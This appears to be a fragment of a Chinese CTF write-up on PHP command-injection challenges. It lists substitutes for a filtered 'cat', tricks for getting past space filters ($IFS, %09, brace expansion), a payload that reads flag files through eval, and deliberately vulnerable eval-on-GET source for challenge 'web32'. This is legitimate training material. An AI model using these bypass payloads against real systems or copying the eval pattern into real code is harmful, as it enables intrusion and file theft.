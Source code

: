 > 
cat被过滤可以用


```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
grep  在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行，此时可以使用如下命令： grep test *file
paste  指令会把每个文件以列对列的方式，一列列地加以合并

```

> 
空格被过滤可以用


```
{$IFS}   $IFS$9

&gt; &lt; &lt;&gt; 重定向符
%09(需要php环境)
{cat,flag.php} //用逗号实现了空格功能
%20  

```

> 
Payload


```
?c=echo(\`tac%09f*\`);

```

## web32

> 
源码


```
&lt;?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 

```
